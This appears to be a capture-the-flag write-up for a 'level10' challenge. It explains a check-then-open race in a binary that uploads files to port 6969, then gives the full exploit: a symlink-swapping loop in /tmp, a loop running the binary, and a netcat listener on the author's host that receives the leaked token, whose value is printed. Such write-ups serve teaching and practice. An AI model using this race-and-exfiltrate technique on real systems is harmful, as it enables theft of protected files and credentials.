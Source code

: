 The `level10` executable sends a file to a server on port 6969, but only if the user executing it have permissions to open the file, as you can see with the `nm` command:

``` shell
         U access@@GLIBC_2.0
0804a064 b completed.6159
         U connect@@GLIBC_2.0
0804a044 W data_start
0804a068 b dtor_idx.6161
         U exit@@GLIBC_2.0
         U fflush@@GLIBC_2.0
080486b0 t frame_dummy
         U htons@@GLIBC_2.0
         U inet_addr@@GLIBC_2.0
080486d4 T main
         U open@@GLIBC_2.0
         U printf@@GLIBC_2.0
         U puts@@GLIBC_2.0
         U read@@GLIBC_2.0
         U socket@@GLIBC_2.0
0804a060 B stdout@@GLIBC_2.0
         U strerror@@GLIBC_2.0
         U write@@GLIBC_2.0
```

It uses `access` system call probably to check the permisions before send it up. I you refer the `access` man page you can see the following warning:

``` 
       Warning: Using these calls to check if a user is authorized to,
       for example, open a file before actually doing so using open(2)
       creates a security hole, because the user might exploit the short
       time interval between checking and opening the file to manipulate
       it.  For this reason, the use of this system call should be
       avoided.  (In the example just described, a safer alternative
       would be to temporarily switch the process's effective user ID to
       the real ID and then call open(2).)
```

We can use this exploit:

 - First: In one shell instance we can create a infinite loop that will create a file in `/tmp` so we have access to it, and substitute it with a symbolic link to our token file over and over again:

``` shell
while true; do 
    rm -f /tmp/dummy;
    ln -s /home/user/level10/token /tmp/dummy;
    rm -f /tmp/dummy;
    echo "dummy" > /tmp/dummy;
done
```

-Second: In another shell instance just create an infinite loop of the `level10` executable calling this file to our host:

``` shell
while true; do
    ./level10 /tmp/dummy [your/host/path];
done
```

-Third: Lastly in our host machine for example (`192.168.1.18` in our case) put a server listening and discard all the "dummy" content:

``` shell
➜  Resources git:(master) ✗ nc -lk -p 6969 | grep -v 'dummy\|.*( )*.'
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
```

And here you have the token.
